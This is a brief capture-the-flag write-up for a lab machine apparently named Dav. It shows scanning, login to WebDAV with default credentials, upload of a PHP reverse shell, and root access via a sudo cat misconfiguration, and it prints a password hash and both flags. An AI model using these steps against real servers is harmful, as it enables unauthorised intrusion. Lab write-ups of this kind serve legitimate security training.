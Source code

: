 > Dav | export IP=10.10.171.88

# Nmap

nmap -A -sC -sV -T4 -Pn -vv -p- -oN nmap/initial $IP

```
80/tcp open  http    syn-ack ttl 63 Apache httpd 2.4.18 ((Ubuntu))
```

# Wfuzz

wfuzz -u http://$IP/FUZZ -w /usr/share/wordlists/SecLists/Fuzzing/fuzz-Bo0oM.txt --hc 404

```
00004131:   401        14 L     54 W     459 Ch      "webdav/"                                           
000004132:   401        14 L     54 W     459 Ch      "webdav/index.html"                                 
000004133:   401        14 L     54 W     459 Ch      "webdav/servlet/webdav/"
```

cadaver http://$IP/webdav/

**Note: Using default credentials `wampp`:`xampp`***

`passwd.dav`
==============================
wampp:$apr1$Wm2VTkFL$PVNRQv7kzqXQIHe14qKA91
==============================

Uploading our php reverse shell in dav using command `put php-reverse-shell.php` and `cat php-reverse-shell.php` gives us our shell!!

**user.txt**
===============================
449b40fe93f78a938523b7e4dcd66d2a
===============================

# Privilege Escalation

sudo -l 

```
Matching Defaults entries for www-data on ubuntu:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on ubuntu:
    (ALL) NOPASSWD: /bin/cat
```
# Exploit
```
LFILE=/root/root.txt
sudo cat $LFILE
```

**root.txt**
===============================
101101ddc16b0cdf65ba0b8a7af7afa5
===============================
